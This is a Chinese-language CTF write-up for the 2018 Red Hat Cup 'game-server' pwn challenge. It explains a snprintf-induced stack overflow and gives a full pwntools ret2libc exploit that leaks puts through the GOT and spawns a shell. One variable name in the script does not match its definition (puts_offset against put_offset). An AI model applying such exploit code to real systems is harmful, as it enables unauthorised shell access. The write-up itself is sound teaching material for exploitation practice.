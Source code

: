 # 2018红帽杯--pwn--game-server

checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```

32位程序，只开启nx，很明显就是ret2libc

ida打开

```c++
int sub_8048637()
{
  char s; // [sp+7h] [bp-111h]@5
  char v2; // [sp+107h] [bp-11h]@5
  size_t nbytes; // [sp+108h] [bp-10h]@5
  char *v4; // [sp+10Ch] [bp-Ch]@1

  puts("Welcome to my game server");
  puts("First, you need to tell me you name?");
  fgets(yourname, 0x100, stdin);
  v4 = strrchr(yourname, 10);
  if ( v4 )
    *v4 = 0;
  printf("Hello %s\n", yourname);
  puts("What's you occupation?");
  fgets(youroccupation, 0x100, stdin);
  v4 = strrchr(youroccupation, 10);
  if ( v4 )
    *v4 = 0;
  printf("Well, my noble %s\n", youroccupation);
  nbytes = snprintf(
             &s,
             0x100u,
             "Our %s is a noble %s. He is come from north and well change out would.",
             yourname,
             youroccupation);
  puts("Here is you introduce");
  puts(&s);
  puts("Do you want to edit you introduce by yourself?[Y/N]");
  v2 = getchar();			
  getchar();
  if ( v2 == 89 )
    read(0, &s, nbytes);	//可溢出之处
  return printf("name : %s\noccupation : %s\nintroduce : %s\n", yourname, youroccupation, &s);
}
```

输入名字和职业，然后生成介绍，再问你修不修改介绍

漏洞在snprintf 处

## snprintf

函数会把“our %s is 。。。。”和yourname,yourocc连接起来，第一个%s放yourname，第二个放yourocc，长度初始设为0x100。但实际长度如果超过0x100，最终长度会以实际为准，连接后的字符串放在&s处。返回长度放在nbytes。

## 利用思路

我们把name和occ的长度搞到很大，使得nbytes的值达到可溢出的数，求libc的偏移，得到system和'/bin/sh'的地址，getshell。

### 第一步  求偏移

我们看看栈

```c++
-00000111 s               db ?
-00000110                 db ? ; undefined
-0000010F                 db ? ; undefined
-0000010E                 db ? ; undefined
。。。。。。。。。。。。。。。。。。。。。。。。
-00000012                 db ? ; undefined
-00000011 var_11          db ?
-00000010 nbytes          dd ?
-0000000C var_C           dd ?
-00000008                 db ? ; undefined
-00000007                 db ? ; undefined
-00000006                 db ? ; undefined
-00000005                 db ? ; undefined
-00000004                 db ? ; undefined
-00000003                 db ? ; undefined
-00000002                 db ? ; undefined
-00000001                 db ? ; undefined
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```

可见溢出长度应该在0x111+4 = 277

```
payload = 'a' * 277 + sys + fun + binsh
```

我们把name和occ的长度设为250

```
name = 'a' * 250

occ = 'a' * 250
```

因为题目没有给出libc文件，我们可以利用网站https://libc.blukat.me/

先把puts 和 printf的实际地址 利用puts_plt函数读出来，就可以知道offset了

## 第二步 求system和binsh的实际地址

利用公式

```
libc_addr = puts_addr - puts_offset
system_addr = system_offset + libc_addr
binsh_addr = binsh_offset + libc_addr
```

exp:

```
from pwn import *

r = process("./pwn2")
elf = ELF("./pwn2")
print util.proc.pidof(r)

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
puts_offset = 0x5f140

#printf_got = elf.got['printf']

function = 0x8048637
system_offset = 0x3a940
binsh_offset = 0x15902b

name = 'a'*250
occ = 'b'*250


r.recv()
r.sendline(name)
r.recv()
r.sendline(occ)
r.recv()
r.sendline('Y')
payload = 'a'*(0x111+4) + p32(puts_plt) + p32(function) + p32(puts_got)
r.sendline(payload)
r.recvuntil("\n\n")

put_addr = u32(r.recv(4))

success(hex(put_addr))
libc_addr = put_addr - put_offset
sys_addr = libc_addr + system_offset
binsh_addr = libc_addr + binsh_offset
payload = 'a'*(0x111+4) + p32(sys_addr) + p32(function) + p32(binsh_addr)
r.recv()
r.sendline(name)
r.recv()
r.sendline(occ)
r.recv()
r.sendline('Y')
r.sendline(payload)

r.interactive()



```

